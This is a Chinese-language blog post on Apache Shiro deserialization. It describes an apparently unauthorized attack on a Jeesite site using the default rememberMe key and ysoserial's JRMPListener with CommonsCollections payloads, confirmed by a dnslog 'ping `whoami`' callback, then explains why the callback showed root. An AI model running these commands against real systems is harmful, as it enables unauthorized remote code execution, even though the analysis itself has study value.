 ```yaml
---
layout: about
category: about
Researchname: JRMP-Gadget
toc: true
permalink: /about/JRMP-Gadget/
---
```


# Shiro框架深入利用：JRMP-Gadget利用链浅析

> PartI: Stay Hungry, Stay Foolish. 
> 
> PartII: 学的越多，不懂得也就越多。

**2021年 6月30日 星期三 15时30分40秒 CST* 前不久，Fofa安全工程师某信正在愉快的网上冲浪，不一会群里丢出了一个惹眼的链接吸引了某信的注意。

- 链接格式：`http://{ip.addr}:{ip.port}/a/login`

**芽儿～当时我整个人的是这样的：**
<div class="col-lg-2">
<img align="left" src="/static/web-image/JRMP-Gadget/IMG_0678.JPG"/>
</div>

<div>
因为这个链接实在是太熟悉了，浏览器访问，果然直接跳转：<br>
<code>/a/login;JSESSIONID=···</code><br>
和具有辨识度的Cookie：<code>jeesite.session.id</code><br>
<br>
一切都是这么的自然，我可真是太神气了。
</div>

梳理一下：

- Shiro 框架
- Jeesite CMS
	- 已知路由 `/a/、/f/`...

所以这个站就可以直接从Shiro入手来看，老三样：跑密钥 -> 利用链 -> Dnslog

不过跑密钥出了个小插曲，登录路由login处设置`rememberMe Cookie`时反包*Set-Cookie*不显示*deleteMe Cookie*，具体原因待更新：[*Different Shiro Framework deserialization analysis ideas*](/about/ShiroDeser/){:target="_blank"}，而从上面的特征我们已经可以肯定存在Shiro框架，当然也可以通过对不存在的路由进行Cookie设置来进行验证。

![](/static/web-image/JRMP-Gadget/shiro-cookie.png)

由于上面的原因导致有一些匹配回包来检测shiro框架为逻辑工具就在原地划水不动弹，不慌，总有一些“尖子生”，跑出默认密钥：`kPH+bIxk5D2deZiIxcaaaA==`

紧接着：
```bash
[*] find: JRMPClient can be use
0: JRMPClient
```

- ysoserial.jar公网起JRMP端口，转发命令<code>ping `whoami`.x.dnslog.cn</code>
- JRMP监听显示流量建立链接，查看dnslog：
![](/static/web-image/JRMP-Gadget/shiro-dnslog.png)

`默认加密密钥 -> JRMPClient利用链 -> Shiro反序列化RCE root` 多么赏心悦目，一切都是那么地丝滑。
<div class="col-lg-3">
	<img  src="/static/web-image/JRMP-Gadget/IMG_0677.JPG"/>
</div>
<div>
	<div class="col-lg-8">
		<strong>然而却帅不过三秒：</strong>
		<img  src="/static/web-image/JRMP-Gadget/IMG_0679.png"/>
	</div>
</div>
<br><br><br>
<br><br><br>
<br><br>

## 提出问题

其实在这次渗透的过程中，我对于两个地方存疑：

- 第一个问题是开发向：就是Shiro框架识别阶段，`/a/login`路由配置Shiro对应Cookie后没有返回对应的Set-Cookie，如何实现的？同时我这里查了一些资料供参考
	- [Apache Shiro反序列化识别那些事](https://www.hetianlab.com/specialized/20200612143432){:target="_blank"}

- 第二个问题是JRMP Gadget利用阶段，为什么Dnslog记录显示为root，而现实情况下反弹的shell权限则是低权限？

### # 为什么不是root?

![](/static/web-image/JRMP-Gadget/JRMP-logic.png)

如上图，整张图是我个人对于Java反序列化中对于JRMP利用链的过程理解，从`local Attacker`环节开始，具体细节在这里不做展开叙述，其中存在歧义的地方我使用红色部分进行了标记；个人分析存在的问题也是红色部分：

> `VPS - JRMP`阶段在服务器启动的时候命令为：
>
> ><code>java -cp ysoserial.jar ysoserial.exploit.JRMPListener 3333 CommonsCollections5 "ping `whoami`.x.dnslog.cn"</code>
> >
> >对应的：
> >`ysoserial.exploit.JRMPListener`利用类、`3333`本地JRMP监听端口、`CommonsCollections5`Java反序列化利用链以及转发<code>"ping `whoami`.x.dnslog.cn"</code>命令

再来看另外一张图片：
![](/static/web-image/JRMP-Gadget/jrmp-low-per.JPG)
我们看上面这一张图，重点在于`ping root.zj6u6s.dnslog.cn`进程对应的用户同样是低权限用户，也就是说是低权限的用户去运行的<code>`whoami`</code>这个命令而且输出的是`root`，但是从Linux权限的常识来看是不会出现这样的情况的。所以有了以下设想：

- 我初步的设想是：**假设1:命令是在受害机器上执行**，那么有几种情况：
	- 1.1:会不会因为该用户是sudo用户才导致返回的dns记录为root？
	- 1.2:~~启动Tomcat服务的为root用户？~~（通过`ps -ef`可以直接排除，而且细想，若Tomcat用户为root，那么肯定反弹的用户也为root）

所以我针对1.1假设进行了实验进行正确型验证：
```bash
➜ bin4xin sudo -l

User bin4xin may run the following commands on bin4xin's MacbookPro:
    (ALL) ALL

➜ bin4xin (sudo) ping `whoami`.31veg3.dnslog.cn
PING bin4xin.31veg3.dnslog.cn (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.087 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.163 ms
```
我们可以通过上面的bash信息和下面的dnslog信息返回看到，与sudo用户无关
```bash
#是否添加sudo返回都如下：
#dnslog返回记录
bin4xin.31veg3.dnslog.cn	61.132.161.4	2021-07-05 13:44:34
bin4xin.31veg3.dnslog.cn	61.132.161.6	2021-07-05 13:44:34
```
所以这种假设我们就直接排除了；

- 第二种设想 **假设2:命令是在VPS机器上执行**，就是JRMP利用过程链那张图中红色的那一部分，我想：<code>"ping `whoami`.x.dnslog.cn"命令</code>转发前本地机器是否已经执行了`whoami`所以导致了受害机器执行的是root开头的命令呢？
	- 那么如果通过这种假设，过程就是：`JRMP Server Listen: *0.0.0.0:3333` -> 本地机器执行<code>`whoami`</code>
	- 受害机器访问JRMP Server，执行`ping root.x.dnslog.cn`。

这种情况下来看，实际上也能够说通，而实际上也正是如此，本来打算是在本地跑个Shiro走一整个流程的，但是直到我发现了这个：
```bash
➜ bin4xin java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 "ping `whoami`.6iep0z.dnslog.cn"
* Opening JRMP listener on 8888

#ysoserial.exploit.JRMPListener利用类监听状态下：
➜ bin4xin ps -ef|grep ping

  501  6895  6696   0  2:37下午 ttys004    0:00.54 java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 ping bin4xin.6iep0z.dnslog.cn
```
看到`java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 ping bin4xin.6iep0z.dnslog.cn`进程一切已然清晰；

至此，本章核心阐述完毕。以上

